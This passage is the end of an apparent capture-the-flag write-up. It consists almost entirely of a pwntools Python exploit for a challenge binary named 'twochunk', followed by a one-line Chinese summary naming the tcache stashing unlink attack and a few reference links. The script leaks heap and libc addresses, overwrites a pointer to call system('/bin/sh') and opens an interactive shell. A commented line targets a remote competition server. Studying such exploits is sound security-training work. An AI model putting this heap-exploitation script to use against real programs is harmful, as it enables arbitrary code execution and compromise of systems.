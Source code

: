```python
	cmd(idx)
	p.sendafter(": ",c)
def msg(c):
	cmd(6)
	p.sendafter(": ",c)
#p=remote("121.36.209.145",9999)
p=process('./twochunk')
libc=ELF("/lib/x86_64-linux-gnu/libc-2.30.so")
p.sendafter(": ",flat(0x23333000,0x23333020))
p.sendafter(": ","1"*0x40)
for x in range(7):
    add(0,0x188)
    free(0)
for x in range(5):
    add(0,0x88)
    free(0)
add(0,0x188)
add(1,0x99)
free(0)
add(0,0xf8)
free(0)
add(0,0x99)
free(1)
free(0)
add(0,0x188)
add(1,0x99)
free(0)
add(0,0xf8)
free(0)
add(0,0x99)
free(1)
free(0)
add(0,23333)
show(0)
heap=u64(p.read(8))
log.warning(hex(heap))
pay='\0'*0xf8+flat(0x91,heap+0xf0,0x23333000-0x10)
edit(0,pay)
add(1,0x88)
cmd(5)
p.readuntil("age:")
base=u64(p.read(6)+'\0\0')-(0xfff7fbfc6020-0x7ffff7dd5000)
log.warning(hex(base))
cmd(6)
libc.address=base
p.sendafter(": ",flat(libc.sym['system'],0,0,0,0,0,libc.search("/bin/sh").next()))
#gdb.attach(p,'''
#''')
cmd(7)
p.interactive()
```
# summary
`tcache stashing unlink atk`利用场景


[0]: https://github.com/n132/Watermalon/tree/master/Hitcon_2019/one_punch_man
[1]: https://github.com/n132/Watermalon/tree/master/%E9%AB%98%E6%A0%A1%E6%88%98%E7%96%AB_2020/twochunk
[2]: https://xz.aliyun.com/t/7192
[3]: ch4r1l3.github.io